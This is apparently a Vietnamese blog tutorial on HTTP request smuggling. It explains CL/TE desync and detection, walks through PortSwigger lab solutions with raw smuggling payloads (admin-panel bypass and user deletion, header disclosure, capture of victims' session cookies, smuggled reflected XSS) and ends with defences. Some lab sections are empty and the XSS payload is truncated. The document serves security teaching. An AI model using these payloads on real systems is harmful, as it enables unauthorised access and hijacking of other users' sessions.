




# HTTP Request Smuggling

# 1. HTTP Request Smuggling là gì ?

HTTP request smuggling (Tấn công bất đồng bộ HTTP) là một kỹ thuật được sử dụng để can thiệp vào quá trình trang web xử lý các chuỗi yêu cầu HTTP nhận được từ một hay nhiều người dùng.

Các lỗ hổng liên quan đến HTTP request smuggling thường xuất hiện khi front-end và các máy chủ back-end có bất đồng trong việc xử lý các yêu cầu HTTP. Từ đó cho phép kẻ tấn công gửi hoặc đánh cắp một yêu cầu không xác định và ghép nó vào yêu cầu của người dùng tiếp theo.



## **Chuyện gì xảy ra khi một cuộc tấn công HTTP request smuggling diễn ra**?

Trước khi đi sâu vào cơ chế hoạt động của lỗ hổng này, hãy cùng điểm qua mô hình kiến trúc web một chút nhé.

- `Mô hình truyền thống:`

Trước đây, kiến trúc web rất đơn giản: **Người dùng (Trình duyệt) ➔ Máy chủ Backend**

Người dùng gửi yêu cầu (HTTP Request) trực tiếp đến thẳng máy chủ đang chạy code của website (ví dụ: máy chủ PHP, Java, Node.js). Máy chủ xử lý và trả kết quả về.

---

- `Mô hình hiện đại (ngày nay):`

Khi các trang web lớn lên, có hàng triệu người truy cập, mô hình 1-1 ở trên không còn hiệu quả nữa. Nó dễ bị sập vì quá tải hoặc dễ bị hacker tấn công trực tiếp. Vì vậy, người ta phải chèn thêm **một chuỗi các máy chủ trung gian** (chains of HTTP servers) ở giữa.

Mô hình thực tế bây giờ trông như thế này:

**Người dùng** ➔ **CDN** (VD: Cloudflare) ➔ **WAF** (Tường lửa) ➔ **Load Balancer** (Bộ cân bằng tải) ➔ **Reverse Proxy** ➔ **Máy chủ Backend.**

---

Trong mô hình kiến trúc này, khi máy chủ Front-end (như Load Balancer hay Reverse Proxy) chuyển tiếp yêu cầu (request) đến máy chủ Back-end, nó thường không tạo một kết nối mạng mới cho từng yêu cầu HTTP khác nhau.

Để tối ưu hóa hiệu suất, tiết kiệm tài nguyên và tăng tốc độ xử lý, Front-end sẽ gom và gửi nhiều yêu cầu HTTP qua cùng một kết nối mạng dùng chung (TCP connection) đến Back-end.

Giao thức truyền tải ở bước này rất đơn giản: Các HTTP request (từ nhiều người dùng khác nhau) sẽ được đẩy vào luồng kết nối và chạy nối tiếp nhau cái này nối tiếp cái kia. Cũng chính vì cấu trúc "nối đuôi" này, một trọng trách lớn được đặt lên vai máy chủ tiếp nhận (Back-end): Nó phải tự phân tích và xác định chính xác ranh giới của các gói tin — đâu là điểm kết thúc của yêu cầu hiện tại, và đâu là điểm bắt đầu của yêu cầu tiếp theo.


Và đây chính là điểm yếu... Điều quan trọng là hệ thống front-end và back-end phải thống nhất tuyệt đối về ranh giới giữa các yêu cầu HTTP. Nếu không, kẻ tấn công có thể gửi một yêu cầu 'mơ hồ' khiến hai hệ thống này diễn giải khác nhau.

Ví dụ: Kẻ tấn công cố tình chèn dữ liệu độc hại vào phần body của request. Máy chủ back-end do hiểu sai ranh giới sẽ cắt nhầm, và lầm tưởng phần dữ liệu thừa này chính là **khởi đầu của request tiếp theo** (như khối màu cam đính vào khối màu xanh lá trong hình). Qua đó, kẻ tấn công có thể can thiệp trực tiếp vào cách ứng dụng xử lý request của những người dùng vô tội khác


---

# 2. Các lỗ hổng HTTP Request Smuggling phát sinh như thế nào?

Hầu hết các lổ hổng HTTP request smuggling phát sinh là do đặc tả HTTP/1 cung cấp cho chúng ta **hai phương thức khác nhau** để xác định độ dài của một request: đó là thông qua header `Content-Length` và header `Transfer-Encoding`.

---

**Phương thức 1: Sử dụng `Content-Length` (CL)**

Đây là cách đơn giản và phổ biến nhất. Header `Content-Length` sẽ khai báo trực tiếp độ dài (tính bằng byte) của phần message body.


Ở ví dụ trên, máy chủ đọc header và hiểu ngay rằng phần body có chính xác 11 byte (`q=smuggling`). Cứ đọc đủ 11 byte là kết thúc request.

---

**Phương thức 2: Sử dụng `Transfer-Encoding` (TE)**

Trong một số trường hợp (đặc biệt là khi dữ liệu được tạo ra động và chưa biết trước tổng kích thước), người ta sử dụng header `Transfer-Encoding: chunked`. Thay vì khai báo tổng độ dài ngay từ đầu, dữ liệu sẽ được chia thành nhiều "khúc" (chunk) nhỏ để gửi đi.

Cấu trúc của nó như sau: Mỗi chunk bắt đầu bằng kích thước của chunk đó (được viết dưới dạng mã Hex - hệ thập lục phân), theo sau là một dòng trống (newline), rồi đến nội dung của chunk. Quá trình này kết thúc khi máy chủ nhận được một **chunk có kích thước bằng 0**.


Ở đây, `b` (hệ hex) tương đương với 11 byte trong hệ thập phân. Khúc `0` ở cuối là tín hiệu kết thúc: *"Request của tôi kết thúc ở đây nhé!"*.

Do đặc tả của giao thức HTTP/1 cung cấp đến hai phương thức khác nhau để xác định độ dài của một HTTP message (là Content-Length và Transfer-Encoding), nên hoàn toàn có khả năng một request duy nhất sử dụng đồng thời cả hai phương thức này cùng lúc, tạo ra một sự xung đột trực tiếp.

Để ngăn chặn sự cố này, đặc tả HTTP đã đặt ra một quy tắc rõ ràng: Nếu cả hai header `Content-Length` và `Transfer-Encoding` đều xuất hiện, thì header `Content-Length` phải bị bỏ qua.

Quy tắc này có thể đủ để giải quyết sự mơ hồ nếu chúng ta chỉ giao tiếp với một máy chủ duy nhất. Tuy nhiên, khi hệ thống kết hợp một chuỗi hai hay nhiều máy chủ với nhau (như mô hình Front-end chuyển tiếp cho Back-end), lỗ hổng bắt đầu xuất hiện. Trong tình huống này, rắc rối nảy sinh vì hai lý do chính:

1. Không hỗ trợ: Một số máy chủ hoàn toàn không hỗ trợ xử lý header **Transfer-Encoding** đối với các request gửi đến.
2. Bị đánh lừa: Một số máy chủ **có hỗ trợ header Transfer-Encoding**, nhưng kẻ tấn công có thể dùng các thủ thuật để làm mờ (obfuscate) header này. Việc làm mờ khéo léo sẽ khiến máy chủ không nhận diện được và quyết định bỏ qua nó.

Hậu quả là gì? Nếu hệ thống Front-end và Back-end có cách xử lý khác nhau đối với header Transfer-Encoding (có thể do bị làm mờ hoặc do không hỗ trợ), chúng sẽ đánh giá sai lệch về ranh giới giữa các request nối tiếp nhau. Sự bất đồng thuận này trực tiếp dẫn đến các lỗ hổng HTTP Request Smuggling.

---

# 3. Các biến thể HTTP Smuggling Attack

Các cuộc tấn công request smuggling  thường xoay quanh việc nhét cả hai header là `Content-Length` và `Transfer-Encoding` vào cùng một request HTTP/1. Kẻ tấn công sẽ tìm cách "thao túng" hai header này sao cho máy chủ Front-end và Back-end hiểu sai lệch về cách phân tích cú pháp của request.

Tùy thuộc vào hành vi và cách xử lý của hai máy chủ, chúng ta có 3 kịch bản tấn công chính:

- **CL.TE:** Máy chủ Front-end sử dụng header `Content-Length` để xác định độ dài request, trong khi máy chủ Back-end lại tin vào header `Transfer-Encoding`.
- **TE.CL:** Ngược lại với kịch bản trên, máy chủ Front-end sử dụng header `Transfer-Encoding`, còn máy chủ Back-end lại sử dụng `Content-Length`.
- **TE.TE:** Cả hai máy chủ Front-end và Back-end đều hỗ trợ xử lý header `Transfer-Encoding`. Tuy nhiên, kẻ tấn công có thể làm mờ (obfuscate) header này bằng một vài thủ thuật nhỏ, nhằm đánh lừa khiến một trong hai máy chủ không nhận diện được và vô tình bỏ qua nó.

## Kịch bản CL.TE

Ở kịch bản này, máy chủ Front-end sẽ xác định ranh giới request dựa vào header `Content-Length`, trong khi máy chủ Back-end lại xử lý dựa trên header `Transfer-Encoding` .

Hãy xem thử một payload đơn giản sau:

```bash
POST / HTTP/1.1
Host: website.com
Content-Length: 26
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Foo: x
```

- Front-end: Front-end đọc header `Content-Length: 26`. Nó đếm chính xác 26 byte từ phần body (bao gồm cả số `0`, các khoảng trắng, dòng trống và đoạn `GET /404...`) và tự tin chuyển tiếp toàn bộ khối dữ liệu này ra phía sau cho Back-end.
- Back-end: Nhận được dữ liệu, Back-end lại ưu tiên đọc header `Transfer-Encoding: chunked`. Theo nguyên tắc của chunked, khi nó gặp chunk có kích thước bằng `0`, nó coi như request đã kết thúc.
- Kết quả: Back-end chỉ xử lý phần đầu của request. Toàn bộ phần còn lại (từ dòng GET /404 HTTP/1.1 trở đi) không được xử lý nhưng cũng không bị xóa đi. Chúng bị "bỏ quên" lại trong bộ đệm của đường truyền kết nối (TCP connection). Khi một người dùng bình thường khác gửi request tiếp theo tới, phần GET /404... này sẽ bị gắn chặt vào đầu request của họ, khiến họ nhận được một trang lỗi 404 thay vì nội dung họ muốn!

## Kịch bản [TE.CL](http://te.cl/)

Trường hợp này hoàn toàn ngược lại. Máy chủ Front-end xử lý theo Transfer-Encoding, còn Back-end lại tin vào `Content-Length`.

Kẻ tấn công có thể gửi một request như thế này:

```bash
POST / HTTP/1.1
Host: website.com
Content-Length: 4
Transfer-Encoding: chunked

15
GET /404 HTTP/1.1
0
```

- Góc nhìn của Front-end: Front-end tin vào `Transfer-Encoding: chunked.` Nó đọc thấy chunk đầu tiên có kích thước `15` (mã hex, tương đương 21 byte của đoạn `GET /404...`), sau đó đọc tiếp và thấy chunk `0`. Nó kết luận toàn bộ khối dữ liệu này là một request hợp lệ và chuyển tiếp tất cả đến Back-end.
- Góc nhìn của Back-end: Back-end chỉ quan tâm đến `Content-Length: 4`. Nó đếm đúng 4 byte đầu tiên của phần body (chính là số `1`, số `5` và các ký tự xuống dòng `\r\n`) rồi ngừng lại, cho rằng request đã xong.
- Kết quả: Tương tự như kịch bản trên, phần "dư thừa" bắt đầu từ chữ `GET /404 HTTP/1.1` và số `0` bị kẹt lại trong đường ống kết nối. Máy chủ Back-end sẽ coi đoạn dữ liệu thừa này chính là điểm bắt đầu cho HTTP request của nạn nhân tiếp theo.

# 4. **Cách phát hiện lỗ hổng**

Sau khi hiểu cách hoạt động của HTTP Request Smuggling, bước tiếp theo là xác định xem hệ thống có tồn tại sự bất đồng giữa Front-end và Back-end hay không.

Ý tưởng của quá trình detect rất đơn giản:

> Gửi một HTTP request “mơ hồ” chứa đồng thời Content-Length và Transfer-Encoding, sau đó quan sát cách hệ thống phản hồi.
> 


Tùy vào việc Front-end và Back-end diễn giải request khác nhau như thế nào, hệ thống sẽ xuất hiện các hành vi đặc trưng như:

> Request bị treo (timeout)
Request bị từ chối (reject)
Back-end phản hồi bình thường (response)
Kết nối bị đầu độc (socket poison)
> 

Những dấu hiệu này cho phép chúng ta suy đoán hệ thống đang thuộc kiểu:

> 
> 
> 
> CL.TE
> [TE.CL](http://te.cl/)
> TE.TE
> hoặc không tồn tại request smuggling ([CL.CL](http://cl.cl/))
> 

# 5. **Confirming HTTP request smuggling vulnerabilities using differential responses**

Sau bước detect bằng timeout, chúng ta đã có thể nghi ngờ hệ thống tồn tại HTTP Request Smuggling. Tuy nhiên, timeout chỉ là dấu hiệu, chưa phải bằng chứng tuyệt đối.

Để xác nhận chắc chắn lỗ hổng tồn tại, người ta sử dụng kỹ thuật:

> Differential Responses
(Xác nhận thông qua sự khác biệt trong phản hồi)
> 

Ý tưởng của kỹ thuật này rất đơn giản:

> Gửi một request độc hại nhằm “đầu độc” (desync) kết nối backend
Sau đó gửi một request bình thường
Nếu request bình thường nhận phản hồi bất thường, điều đó chứng minh request trước đã can thiệp vào luồng xử lý của backend
> 

Nói cách khác:

> Backend đã hiểu sai ranh giới request.
> 

Đây chính là bằng chứng xác thực của HTTP Request Smuggling.

## Xác nhận CL.TE bằng differential responses


## Xác nhận [TE.CL](http://te.cl/) bằng differential responses


# 6. Hậu quả khôn lường của HTTP Request Smuggling

Tại sao HTTP Request Smuggling lại được đánh giá là một trong những lỗ hổng nguy hiểm và "thú vị" nhất? Lý do cốt lõi nằm ở chỗ: **Nó phá vỡ sự cô lập (isolation) cơ bản giữa các người dùng với nhau trên cùng một hệ thống.**

Khi kẻ tấn công có thể thao túng cách hệ thống định tuyến các request, họ có thể gây ra những hậu quả cực kỳ nghiêm trọng sau:

## 1. Vượt mặt các cơ chế bảo mật của Front-end (Bypassing Security Controls)

Trong kiến trúc web hiện đại, Front-end (như Load Balancer, WAF - Tường lửa) thường chịu trách nhiệm kiểm tra, lọc các request độc hại và kiểm soát quyền truy cập.
Tuy nhiên, với HTTP Request Smuggling, phần request bị "buôn lậu" được giấu kín bên trong body của một request trông có vẻ vô hại. Front-end bỏ qua nó, nhưng Back-end lại lôi ra xử lý. Nhờ đó, kẻ tấn công có thể truy cập thẳng vào các endpoint quản trị (ví dụ: `/admin`) hoặc gửi các payload độc hại mà không hề bị WAF ngăn chặn.

## 2. Đánh cắp thông tin nhạy cảm của người dùng khác (Capturing User Requests)

Hãy nhớ lại cơ chế: Phần request bị "buôn lậu" sẽ nằm chờ sẵn trong đường truyền và nối thẳng vào request của người dùng bình thường tiếp theo.
Nếu kẻ tấn công cấu trúc payload khéo léo để phản hồi của request nạn nhân được lưu lại (ví dụ: thông qua một chức năng đăng bình luận, hoặc gửi tin nhắn), họ có thể có được toàn bộ request của nạn nhân. Điều này đồng nghĩa với việc toàn bộ Session Cookie, Token xác thực, hay thậm chí tài khoản/mật khẩu của người dùng vô tội sẽ rơi thẳng vào tay kẻ tấn công.

## 3. Đầu độc bộ nhớ đệm (Web Cache Poisoning)

Nếu hệ thống có sử dụng cơ chế Cache (lưu trữ bản sao dữ liệu để tăng tốc độ tải), kẻ tấn công có thể dùng Request Smuggling để lừa máy chủ lưu một nội dung độc hại (ví dụ: một trang chứa mã độc JavaScript) vào bộ nhớ đệm của một đường dẫn hợp lệ (như trang chủ `/`).
Hậu quả là **tất cả** những người dùng bình thường truy cập vào trang chủ sau đó đều sẽ nhận được bản sao độc hại này từ bộ đệm. Chỉ một cú đánh, sát thương diện rộng!

## 4. Khuyếch đại các lỗ hổng khác (Exploit Chaining)

HTTP Request Smuggling thường được dùng làm "bàn đạp" để biến các lỗ hổng khó khai thác thành những vũ khí hủy diệt.
Ví dụ: Lỗ hổng Reflected XSS thông thường yêu cầu nạn nhân phải tự click vào một đường link độc hại. Nhưng nếu kết hợp với Request Smuggling, kẻ tấn công có thể chủ động "nhét" payload XSS vào thẳng request của người dùng. Nạn nhân chỉ cần lướt web bình thường cũng dính mã độc mà không cần tương tác (Zero-click attack).

> 💡 **Case Study thực tế — HTTP Desync Attacks (2019)**: Nhà nghiên cứu bảo mật **James Kettle** (PortSwigger) đã công bố nghiên cứu "HTTP Desync Attacks" và chứng minh kỹ thuật này hoạt động được trên **Cloudflare, Akamai và nhiều CDN hàng đầu thế giới**. Không phải một app nhỏ bị dính — mà chính tầng hạ tầng đang bảo vệ hàng triệu website đồng thời bị ảnh hưởng. Nếu CDN bị poison, **toàn bộ các site đứng sau** đều nhận về response độc hại mà không hay biết gì.
> 

# 7. Thực hành khai thác HTTP Request Smuggling với PortSwigger Labs

## **Lab: HTTP request smuggling, basic CL.TE vulnerability**

Trong lab này hệ thống tồn tại lỗ hổng: `CL.TE`

Tức là:

- Front-end đọc theo Content-Length
- Back-end đọc theo Transfer-Encoding

Mục tiêu của chúng ta là khiến backend hiểu request tiếp theo có method: `GPOST`


Bài này chỉ là bài cơ bản để giúp chúng ta hình dung thêm về lổ hổng này nên cách khai thác cũng dễ. Mình có mở Burp và quan sát HTTP history thì mình lấy gói tin `GET /` và gửi nó qua Tab `Repeater`.


Trong lab này, endpoint cụ thể không quan trọng. Mục tiêu chính không phải khai thác chức năng của ứng dụng, mà là: **phá vỡ cách `Front-end` và `Back-end` phân tách request.**

Tiếp theo thì mình chuyển method của request sang POST và hạ `HTTP /2` xuống `HTTP /1.1` .

Lý do là vì HTTP Request Smuggling cổ điển (**CL.TE, [TE.CL](http://te.cl/)**) chủ yếu khai thác sự mơ hồ trong cách HTTP/1.1 xác định độ dài request thông qua:

- **Content-Length**
- **Transfer-Encoding**

Trong khi đó HTTP/2 không hoạt động theo cơ chế này.

`HTTP/2` sử dụng frame binary với ranh giới request được xác định rõ ràng ở tầng protocol, nên các kỹ thuật desync kiểu truyền thống thường không còn hiệu quả.

Đồng thời Burp có chức năng `Update Content-Length` , ta phải tắt nó đi để ngăn cho Burp tự động cập nhật Content-Length khiến cho payload khai thác không hoạt động được. Bật thêm show `non-printable char` để có thể thấy các kí tự xuống dòng `\r \n` . Lúc này request được sửa lại trông như ảnh sau.


Bây giờ mình sẽ thử chèn body của request theo giống với đoạn payload đã học để detect CL-TE vul . Payload sẽ trông như sau:

```bash
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X

```

Gửi request đi và có thể ngay lập tức nhận thấy response không trả ngay và mất 1 khoảng thời gian. Sau vài giây thì nhận được `Server Error: Communication timed out` .


Điều này là do `FE` của bài xử lý theo kiểu `CL` nó đã cắt mất đoạn `X \r \n` khỏi body của request và gửi nó đến `BE`. Bên `BE` thì xử lý theo kiểu `TE` nó đọc được chunked đầu tiên có size là `3 Hex` và lấy dữ liệu là ba byte tiếp theo đó là `abc` . Lúc này, do không nhận được thông tin về kích thước của chunk tiếp theo, máy chủ Back-end sẽ bị treo (đứng chờ dữ liệu) dẫn đến hiện tượng Timeout.



Sau khi xác nhận có thể có lổ hổng rồi theo dạng CL.TE rồi ta có thể khai thác theo payload sau:

```bash
Content-Length: 6
Transfer-Encoding: chunked
\r \n
0\r \n
\r \n
G\r \n
```

Mình có thể mô tả cách mà payload này hoạt động như sau. Vì `FE` xử lý theo `CL` nên nó gửi toàn bộ 6byte trong request đến `BE`. Và khi `BE` nhận được request trên nó xử lý theo `TE` nhận thấy chunk size là `0`, nên nó cắt phần `0\r\n` và phần kí tự xuống hàng`\r\n` lúc này kí tự còn lại là `G` bị cắt ra và còn nằm trong luồng kết nối.


Khi người dùng bình thường gửi request thì kí tự `G` đó nối vào phần đầu của request kế tiếp nên nó ghép thẳng chữ `G` vào phần đầu của request thành `GPOST`. Trong thực hành Lab, để nhanh chóng thấy kết quả, bạn có thể bấm Send request tấn công này 2 lần liên tiếp. Lần 1 để 'đầu độc' đường truyền (để lại chữ G), và lần 2 đóng vai trò là request nạn nhân bị gắn chữ G vào.


## Lab: HTTP request smuggling, basic [TE.CL](http://te.cl/) vulnerability

Sau khi đã quen với CL.TE, chúng ta sẽ đảo nghược một chút với bài Lab TE.CL. Trong kịch bản này, cấu hình máy chủ có sự thay đổi:

- **Front-end (FE)** xử lý theo `Transfer-Encoding`.
- **Back-end (BE)** xử lý theo `Content-Length`.

Mục tiêu của Lab vẫn là "buôn lậu" một request khiến Back-end hiểu lầm request tiếp theo đang sử dụng phương thức `GPOST`.


Cơ bản thì mình vẫn tạo 1 request POST tương tự như bài trước. Lúc này mình áp dụng thử phần payload detect của CL.TE nhưng không được và nhận response khá giống mô tả ở phần “Cách phát hiện lổ hổng” mà mình đã ghi.


Điều này là do FE xử lý theo TE nên nó nhận được size chunk đầu tiên là 3 và xử lý ba byte là `abc` . Nhưng với kích thước của chunk tiếp theo ở đây là `X` nên nó gây ra lỗi `invalid chunk size.`


Biết được FE xử lý bằng TE rồi thì mình đi detect xem BE xử lý bằng gì theo payload sau và kết quả nhận được là time out. Có thể khẳng định là BE xử lý theo CL.


Điều này là do sau khi FE xử lý theo dạng TE thì phần body của request đã bị cắt mất X. Điều này dẫn đến phần body lúc này chỉ còn có 5 byte và khi BE nhận được nó xử lý theo CL. Vì CL là 6 nên nó nhận thấy còn thiếu 1 byte và cứ thế chờ byte cuối cùng dẫn đến time out.


Sau khi detect được FE và BE xử lý theo gì rồi thì mình có thể khai thác thông qua payload sau:



Và thêm 1 luồng chạy tương tác của người dùng bình thường. Sau khi khai thác thì kết quả nhận được như sau. Xác nhận là đã khai thác được method GPOST.



---

## Lab: HTTP request smuggling, bypassing front-end security controls, CL.TE vulnerability

Kịch bản: **FE** block toàn bộ request đến `/admin` (trả 403). **BE** không kiểm tra gì — nó tin tưởng hoàn toàn FE. Kịch bản **CL.TE**.


Mình thử vào `/admin` → 403 ngay. Vào Burp, bắt `GET /` → **Repeater** → hạ **HTTP/1**, tắt `Update Content-Length`, bật non-printable chars.

```bash
POST / HTTP/1.1
Host: 0a2200bd043a63c084ab973f00e900fd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```

Lúc này trigger thử 2 lần thì bị chặn lại và response báo là do thiếu trường Host là local users.


Tinh chỉnh lại payload như sau:

```bash
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Ignore: X
```

- **FE** đọc `Content-Length: 34`, đếm đủ 34 byte, forward xuống BE.
- **BE** đọc `Transfer-Encoding: chunked`, gặp chunk `0` → kết thúc request 1. Phần còn lại (`GET /admin HTTP/1.1\nHost: localhost\nX-Ignore: X`) bị "bỏ rơi" trong buffer TCP, ghép vào đầu request tiếp theo.

Gửi request thì bị hiển thị duplicate trường host. Do ta thiếu phần xử lí CL cho phần GET nên nó nhận hết khúc bị dính liền vào request bình thường. Chỉ cần thêm trường CL phù hợp là ổn.

```bash
POST / HTTP/1.1
Host: 0a2200bd043a63c084ab973f00e900fd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 123
Transfer-Encoding: chunked

3
abc
0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```

Gửi request **2 lần liên tiếp**: lần đầu smuggle payload, lần 2 trigger nó.


Tiếp tục smuggle request xóa `carlos`:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 71
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
X-Ignore: X
```


---

## Lab: HTTP request smuggling, bypassing front-end security controls, [TE.CL](http://TE.CL) vulnerability

Y chang mục tiêu bài trên — bypass `/admin` — nhưng kịch bản đổi thành [**TE.CL**](http://TE.CL): FE đọc `Transfer-Encoding`, BE đọc `Content-Length`.


Payload khai thác:

```
POST / HTTP/1.1
Host: 0acc0053049a632a8488d3ba00570035.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

39
GET /admin HTTP/1.1
Host: localhost
Content-Length: 6

0

```

- **FE** đọc TE, forward toàn bộ đến chunk `0`.
- **BE** đọc `Content-Length: 4`, chỉ đọc 4 byte rồi kết thúc request 1. Phần GET`/admin...` bị nhét vào buffer, trở thành request kế tiếp.


Tương tự, đổi path thành `/admin/delete?username=carlos` để xóa user.


---

## Lab: HTTP request smuggling, revealing front-end request rewriting

Bài này thú vị hơn — mình không đập thẳng vào `/admin` mà đi **khám phá bí mật**: FE đang âm thầm thêm header gì vào request trước khi forward xuống BE? Nhiều hệ thống dùng header nội bộ như `X-Forwarded-For` hoặc `X-Real-IP` để kiểm soát quyền truy cập ở BE. Biết được header đó, mình có thể giả mạo.

Trick: smuggle một `POST /` với body bắt đầu bằng `search=`. Request thực của user tiếp theo bị "nuốt" vào tham số đó → kết quả search hiển thị toàn bộ raw request kèm header bí mật.

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=
```

Gửi 2 lần → vào trang xem kết quả search.


Sau khi có tên header (`X-XixWVq-Ip:`), smuggle request đến `/admin` kèm `X-XixWVq-Ip: 127.0.0.1` để giả danh local user.


---

## Lab: HTTP request smuggling, bypassing client authentication

---

## Lab: HTTP request smuggling, capturing other users' requests

Mình sẽ không bypass quyền — mình sẽ **đánh cắp toàn bộ request của nạn nhân** (cookie, token, mọi thứ) mà họ không hề hay biết. Nạn nhân không cần click link lạ, không cần làm gì — chỉ cần browse vào đúng lúc.

Mình smuggle một `POST /post/comment` với trường `comment` có `Content-Length` rất lớn. Request thực của nạn nhân tiếp theo bị "nuốt" vào đó và lưu thành comment công khai.

```jsx
POST / HTTP/1.1
Host: 0acb006b0440316380cc30b30017004e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 339
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0acb006b0440316380cc30b30017004e.web-security-academy.net
Cookie: session=YkKSHD3pNU6Rs2bIz40BCnvsANgGDnAE
Content-Type: application/x-www-form-urlencoded
Content-Length: 900

csrf=0xxZGJlEry5moKWViYuGDMCw1NSny6QI&postId=2&name=TamGay&email=test%40gmail.com&website=http%3Aabcd&comment=Test%0D%0A
```

`Content-Length: 900`trong smuggled request phải đủ lớn để "nuốt" được toàn bộ request nạn nhân. Cần thử nghiệm để điều chỉnh con số chính xác.

Gửi xong, chờ vài giây để có victim request → vào xem comment bài post số 1.


Copy session cookie, paste vào trình duyệt → đăng nhập thành công bằng tài khoản nạn nhân.


> Tấn công hoàn toàn passive — nạn nhân chỉ cần browse vào đúng lúc là bị đánh cắp toàn bộ session.
> 

---

## Lab: HTTP request smuggling, exploiting reflected XSS

Thông thường Reflected XSS cần nạn nhân click vào URL độc hại. Với smuggling, mình **có thể khai thác XSS ngay trên server** — mọi user browse vào sau khi mình đã smuggle đều trở thành nạn nhân, không cần URL, không cần social engineering.

Site có điểm Reflected XSS ở header `User-Agent` (không encode output khi hiển thị). Mình smuggle request inject `User-Agent` độc hại:

```jsx
POST / HTTP/1.1
Host: 0a9c00560481414e809c5dc100c8005a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 157
Transfer-Encoding: chunked

0

GET /post?postId=7 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
User-Agent: ">

x=
```

- Request thực của user tiếp theo được BE ghép vào.
- BE reflect `User-Agent` trong HTML mà không encode → XSS kích hoạt ngay trong trình duyệt nạn nhân.


---

# 8. Phòng chống HTTP Request Smuggling

Sau khi hiểu đủ các kiểu khai thác, câu hỏi quan trọng nhất dành cho dev và sysadmin là: **làm thế nào để bảo vệ hệ thống?**

## Dùng HTTP/2 end-to-end

HTTP/2 không dùng `Content-Length` và `Transfer-Encoding` theo cách HTTP/1.1 — giao thức này có cơ chế đóng gói frame riêng, loại bỏ hoàn toàn sự mơ hồ gây ra smuggling. Nếu toàn bộ pipeline (FE → BE) đều dùng HTTP/2, attack surface gần như bị triệt tiêu. Đây là giải pháp triệt để nhất.

## Reject request mơ hồ tại FE

Nếu server nhận request chứa **đồng thời cả** `Content-Length` lẫn `Transfer-Encoding`, hãy reject (trả 400) thay vì cố forward xuống BE. Đây là cách đơn giản nhất để chặn phần lớn kịch bản tấn công ngay tại cửa vào.

## Không reuse kết nối TCP giữa FE và BE

Mỗi request nên đi qua một kết nối mới giữa FE và BE thay vì dùng chung persistent connection. Điều này đảm bảo payload bị "buôn lậu" không thể lây sang request của user khác dù tấn công thành công.

## Normalize request tại FE

FE nên chuẩn hóa mọi request trước khi forward — loại bỏ header trùng lặp, làm rõ `Content-Length` thực sự. Nhiều WAF và reverse proxy hiện đại (như NGINX, HAProxy) có tính năng này sẵn, chỉ cần bật lên.

## Scan bằng Burp Suite HTTP Request Smuggler

